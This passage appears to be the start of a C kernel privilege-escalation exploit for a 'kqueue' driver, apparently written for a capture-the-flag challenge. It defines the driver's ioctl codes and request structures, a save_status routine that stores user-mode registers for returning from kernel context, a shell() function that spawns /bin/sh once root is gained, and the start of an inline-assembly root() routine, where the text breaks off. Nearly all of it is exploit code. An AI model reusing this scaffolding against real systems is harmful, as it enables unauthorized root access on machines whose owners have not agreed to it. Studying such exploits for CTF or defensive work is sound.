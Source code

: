 ```c

#define CREATE_KQUEUE 0xDEADC0DE
#define EDIT_KQUEUE   0xDAADEEEE
#define DELETE_KQUEUE 0xBADDCAFE
#define SAVE          0xB105BABE

#define INVALID      -1
#define NOT_EXISTS   -3
#define MAX_QUEUES    5
#define MAX_DATA_SIZE 0x20

typedef struct{
    uint32_t max_entries;
    uint16_t data_size;
    uint16_t entry_idx;
    uint16_t queue_idx;
    char* data;
}request_t;

typedef struct queue_entry{
    uint16_t idx;
    char *data;
    char *next;
}queue_entry;

void info(char *s , size_t address ){
    if (address) printf("\033[32m\033[1m[Info] %s : \033[0m\033[35m\033[1m%#lx \033[0m\n", s, address);
    else printf("\033[34m\033[1m[Info] %s \033[0m\n", s);
}

void error(char *s){
    printf("\033[31m\033[1m[Error] %s\n\033[0m" , s);
    exit(1);
}

void shell(){
    if (getuid()){
        error("Failed to get root");
        exit(0);
    }
    info("Get root!",0);
    execl("/bin/sh","sh",NULL);
}

void save_status(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    user_rip = (size_t)shell;
    info("status saved!",0);
}

void root(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov rsi, rsp;"
```